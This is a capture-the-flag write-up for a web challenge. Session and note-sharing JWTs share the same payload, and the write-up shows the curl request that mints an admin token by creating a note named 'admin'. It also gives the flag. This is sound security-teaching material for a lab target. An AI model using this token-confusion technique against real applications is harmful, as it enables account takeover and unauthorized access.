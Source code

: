 # [web - Flag Bearer](https://hack.cert.pl/challenge/flag-bearer)

The system is using JWT tokens for auth. After decoding a session cookie we get this payload:
```
{
  "name": "test2413"
}
```
Exactly the same payload has a token used for sharing notes. So getting admin's token is the matter of generating note named `admin`:
```bash
curl 'https://flag-bearer.ecsc23.hack.cert.pl/notes' \
    -H 'Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoidGVzdDI0MTMifQ.ZV3dbSoRoGF55LaYWNhI1acugrz8HRbIjyblguDszkA' \
    -H 'Content-type: application/json' \
    --data '{"name":"admin","content":"test"}'
```
![](image.png)

Replace it with the session cookie and reload the website to read the flag.

### Flag
```
ecsc23{eyyyyyyyyyylmao}
```
